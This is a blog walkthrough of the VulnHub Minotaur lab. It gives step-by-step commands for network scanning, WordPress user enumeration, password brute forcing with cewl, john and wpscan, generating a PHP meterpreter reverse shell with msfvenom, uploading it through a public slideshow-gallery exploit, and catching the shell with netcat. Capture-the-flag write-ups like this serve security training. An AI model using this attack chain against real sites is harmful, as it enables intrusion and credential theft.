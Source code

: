 ```yaml
---
layout: post
title: "SecTalks: BNE0x00 - Minotaur"
date: 2016-04-26 14:27:14 -0400
comments: true
categories: [vulhub]
---
```



From [Vulhub](https://www.vulnhub.com/entry/sectalks-bne0x00-minotaur,139/)

###Forces:

* netdiscover
* Nmap
* Burp Suite
* Metasploit

<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.56.0/24`

{% img  /images/blog/vulhub/bne03/Selection_001.png   [title manually exploit [alt text]] %}

192.168.56.223 is the target.


Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.56.223 -p-`

{% img  /images/blog/vulhub/bne03/Selection_002.png   [title manually exploit [alt text]] %}

port 22, 80 and 2020 is opening.

use wfuzz to find more locations

`wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.56.223/FUZZ 2>/dev/null`


{% img  /images/blog/vulhub/bne03/Selection_003.png   [title manually exploit [alt text]] %}

found http://192.168.56.223/bull/

Check the page, it looks like use wordpress. good. maybe I can find out some old wordpress plugins.

{% img  /images/blog/vulhub/bne03/Selection_004.png   [title manually exploit [alt text]] %}

I use wpscan to find wordpress plugins vulnerabilities.

`uby wpscan.rb --url http://192.168.56.223/bull/`

get some xss vulnerabilities and an interestig arbutrart file upload vulnerability.

{% img  /images/blog/vulhub/bne03/Selection_005.png   [title manually exploit [alt text]] %}

next step, user enumeration.

`ruby wpscan.rb --url http://192.168.56.223/bull/ --enumerate u`

{% img  /images/blog/vulhub/bne03/Selection_006.png   [title manually exploit [alt text]] %}

get a user name `bully`


next step, password guessing:

`ruby wpscan.rb --url http://192.168.56.223/bull/ --wordlist SecLists/Passwords/passwords_john.txt threads 50`

no luck this time. Let's try harder..

we use cewl this time to generate password file

`cewl -w password.txt http://192.168.56.223/bull/`

also john the ripper should be used to mutate the password file:

`john --wordlist=password.txt --rules --stdout > out.txt`

now I use wpscan to brute force the password:

`wpscan --url 192.168.56.223/bull --wordlist out.txt --username bully`

{% img  /images/blog/vulhub/bne03/Selection_007.png   [title manually exploit [alt text]] %}


Now, create php reverse shell:

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.223 -a php --platform php -o evil.php`

based one wpscan scan result, the wordpress slideshow gallery shell upload exploit(https://www.exploit-db.com/exploits/34681/) is found. Save it as `wp_gallery.py`

run:

`python wp_gallery.py -t http://192.168.56.223/bull -u bully -p Bighornedbulls -f evil.php`


{% img  /images/blog/vulhub/bne03/Selection_008.png   [title manually exploit [alt text]] %}

set netcat 
`nc -nlvp 1234`

visit `http://192.168.56.223/bull/wp-content/uploads/slideshow-gallery/evil.php`

get the meterpreter

{% img  /images/blog/vulhub/bne03/Selection_009.png   [title manually exploit [alt text]] %}

locate flag.txt:
`locate flag.txt` and get the result `/var/www/html/flag.txt`




